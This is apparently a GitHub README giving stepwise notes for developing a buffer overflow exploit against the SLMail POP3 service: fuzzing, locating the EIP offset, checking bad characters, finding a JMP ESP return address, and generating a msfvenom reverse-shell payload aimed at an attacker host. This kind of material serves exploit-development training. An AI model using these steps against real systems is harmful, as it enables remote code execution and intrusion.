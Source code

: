 # ExpDev

* Identify the vuln port (netstat -noa on target // nmap the target).
* Attach the procces to Immunity debugger and "Play" it on the target.
* Edit Fuzzer.py (IP address, port and what it sends in the socket - Ex. sLmail_pop3_pass_fuzzer.py in repo).
* Fuzz the target.
* Write a POC that replicates the crash (Ex. slmail_pop3_replicated_crash.py in repo).
* Locate those 4 A's that overwrite the EIP register.
* Send a unique string in order to identify the EIP offset. The size of this string is equal to the amount of bytes that crash the service. Use pattern_create in kali (Ex. pattern_create.rb -l 2700 --> place the output in buffer variable. See  	slmail_pop3_pattern_create.py in repo).
* Use pattern_offset.rb to discover the offset of these specific 4 bytes in the unique byte string and edit buffer variable (Ex. pattern_offset.rb -l 2700 -q 39694438. See slmail_pop3_pattern_offset.py
in repo).
* Locate space for the shellcode - a standart reverse shell payload requires about 350-400 bytes of space. Locate a convenient location to place the shellcode using the crash in Immunity debugger (Ex. C's in slmail crash are 90 bytes. You can increase the buffer length in order to make the shellcode fit. Ex. Increased buffer in slmail from 2700 to 3500. See slmail_pop3_locate_space.py in repo).
* Check for bad characters - an easy way to do this is to send all possible chars, from 0x00 to 0xff, as part of the buffer variable. See how these chars are dealt with by the app in memory dump of ESP register (Follow in dump - 01 02 03 etc..), after the crash (Ex. 0x00 - null byte is always bad. See slmail_pop3_bad_chars.py).
* Run the badchars check again and again till it doesnt trancate the values in memory (delete the relevnt chars before running the check in buffer, of course).
* Find a return address - using Mona.py in the Immunity debugger you should look for module that is not protected by DEP/ASLR and has a memory range that does not cotain bad characters.
Run "!mona modules" in Immunity to find one.
Run nasm_shell.rb in kali in order to find an opcode that is equivilent to JMP ESP command.
Search for this opcode in all sections of the .dll file that found in modules by this command in Immunity:
"!mona find -s "<OPCODE_IN_HEXA>" (Ex.\xff\xe4) -m <.DLL_FILE> (Ex. slmfc.dll)".
Choose one that doesnt contain bad chars (double check that inside the debugger - Ex. address like 0x5f4a358f).
* Edit the exploit and add this address instead of EIP (B's) place (See slmail_pop3_return_address.py in repo)
* Place a breakpoint in this address and check it actually reaches it.
* Generate a shellcode using MSFVENOM (msfvenom -p windows/shell_reverse_tcp LHOST=<ATTACKERS_IP> LPORT=<ATTACKERS_PORT> -f c -a x86 --platform windows -e x86/shikata_ga_nai -b "<BAD_CHARS>" (ex. "\x00\x0a\x0d")).
* Place this shellcode in the exploit POC and make sure to add NOP as padding for the decoder (See slmail_pop3_shellcode.py in repo). 
